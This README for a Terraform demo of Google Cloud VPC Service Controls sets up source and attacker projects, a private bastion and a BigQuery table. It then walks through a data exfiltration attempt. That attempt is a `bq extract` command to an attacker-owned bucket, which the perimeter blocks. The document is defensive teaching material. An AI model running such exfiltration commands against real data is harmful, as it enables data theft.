 # VPC Service Controls Demo

## Dependencies

* `gcloud/bq`
* Org Admin Role

## Overview

![](fixtures/arch.png)

This terraform code will create:

* 2 projects: source and target/attacker
* Bastion in a private subnet with Private Google Access enabled
* Firewall rule allowing SSH via IAP into the Bastion
* BigQuery Dataset/Table which is loaded with test data
* Target Bucket for the exfil attempt
* All necessary IAM bindings
* Org policy forbidding external IPs on Instances
* VPC Service Control perimeter around BigQuery and GCS in the source project

## Setup

There's a few steps needed to get this demo up and running properly or you'll have a difficult time setting it up later

1. Create a Seed Project
2. Use the [project factory helper script](https://github.com/terraform-google-modules/terraform-google-project-factory/blob/master/helpers/setup-sa.sh) to create a Service Account in your seed 
3. Since this service account will be creating BigQuery Datasets and Storage Buckets as well as VPC Service Control perimeters, it'll need a few more permissions. At the Org level, add `Access Context Manager Admin`, and at the Folder level, add `BigQuery Admin` and `Storage Admin` to the seed project Service Account.
4. Run `cp terraform.tfvars.sample terraform.tfvars` and then update that file with your own values.

Now you should be good to go. If not please create an issue detailing your problem so I can update this guide.

## Deployment

Since we have to first create the two projects, we have a Makefile that makes applying this easy. Just run:

```
make apply_projects
```

This will apply both source and target projects to test out VPC SC and subsequently write the IDs into the `env.sh`. This file is sourced first before the subsequent `apply`. Now you can run:

```
make apply
```


## Demo


First you'll want to get the bucket name from either the state or looking in the console:

```
terraform state show google_storage_bucket.target_bucket | grep url | cut -f2 -d'=' |sed -e 's/^ "//' -e 's/"$//'
```

Next log into the Bastion instance using `gcloud`. Notice how it will say something about tunnelling through IAP? 
That's because the instance doesn't have a public IP!

```
gcloud compute ssh bastion-vm
```

Once you're on the instance, you'll notice that you're logged in as the service account with a user like `sa_1234567890@bastion-vm` which tells you that OS Login was used.

Go ahead and take a look at your config, which should show you which service account you are using. You should be able to successfully run the following command and get some BigQuery data:

```
bq head project_1_dataset.cars
```


Now lets be a bit evil! We're going to attempt to exfil the data from this host to another GCP account that we own. 
Since we own it, we can grant the Service Account for the bastion Owner permissions on the target account. This was already
done for you in the Terraform in `storage.tf`. Since we are Owner of the target account, without VPC SC, we could extract the
entire table into a GCS bucket that we own, but with VPC SC protecting our BigQuery, that won't work. Let's try it anyway! 
Using the bucket name you printed earlier (we'll call it BUCKET_URL), let's try to extract the cars table to the target bucket.
You should get an output that looks something like this:

```
bq extract project_1_dataset.cars BUCKET_URL/cars.csv
BigQuery error in extract operation: VPC Service Controls: Request is prohibited by organization's policy.
```

Success!! Data exfil prevented! But what about PasteBin? Or AWS S3? Or any number of services??

If you look at the subnet we put our Bastion in, you'll notice the line:

```
private_ip_google_access = true
```

You also may notice that we didn't give this thing a NAT. This means we limited the scope of egress traffic to ONLY Google APIs,
which subsequently means that you can't make outbound requests to these type of storage services over the internet. Now does this
mean you are completely safe from exfil? Absolutely not! As long as the user's machine has access to the bastion she can SCP data
from that host. There are other controls you can add as well but VPC SC mitigates a very common threat of data exfil.
